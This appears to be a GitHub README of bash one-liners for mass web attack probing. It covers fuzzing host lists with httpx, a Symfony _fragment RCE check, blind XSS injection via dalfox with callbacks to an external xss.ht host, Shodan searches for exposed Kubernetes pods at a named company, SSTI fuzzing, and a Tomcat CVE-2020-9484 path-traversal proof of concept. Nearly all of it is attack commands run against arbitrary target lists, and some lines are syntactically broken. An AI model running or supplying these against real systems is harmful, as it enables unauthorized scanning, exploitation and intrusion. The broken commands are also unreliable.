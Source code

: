 **This oneliner was created by me for personal use**

### Oneliner to fuzz all hosts with wordlist using httpx and send every request to burpsuite for more investigations:- 

```bash
httpx -l hosts -paths dir.txt -threads 100 -random-agent -x GET,POST  -tech-detect -status-code  -follow-redirects -title -http-proxy http://127.0.0.1:8080
```

### Found bug with custom wordlist from robots.txt 

```bash
httpx -l urls.txt -paths /robots.txt -silent -o robots-url.txt
```

```bash
for url in $(cat robots-url.txt);do http -b $url | grep 'Disallow' | awk -F ' ' '{print $2}' | cut -c 2- | anew robot-words.txt;done
```

### RCE ONELINER WITH HTTPX

```bash
httpx -l hosts.txt -path /_fragment?_path=_controller=phpcredits&flag=-1 -threads 100 -random-agent -x GET  -tech-detect -status-code  -follow-redirects -title -mc 200 -match-regex "PHP Credits"
```

```bash
cat pay-subdomains | sed 's/$/\/_fragment?_path=_controller=phpcredits&flag=-1/' | httpx -status-code
```

### Blind XSS Oneliner with dalfox 


```bash
assetfinder [host] | hakrawler -plain -usewayback -wayback | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | dalfox pipe -b your.xss.ht -o out.txt
```

### Find Kubernetes with shodan and httpx

```bash
shodan search org:"google" product:"Kubernetes" | awk '{print $3}' | httpx -path /pods -content-length -status-code -title
```

### Finding SSTI with ffuf 

```bash
cat subdomains | gau -subs |grep = |qsreplace "sstitest{{7*7}}" |ffuf -w - -u FUZZ -mr "sstitest49" -t 100 -o ./$chaos.ssti.txt ; done
```

### A POC for CVE-2020-9484

```bash
cat targets.txt | while read host do;do curl --insecure --silent -X GET $host/index.jsp -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy' | grep -qs "PersistentManagerBase" && \printf "$host \033[0;31mCVE-2020-948444\n"
```








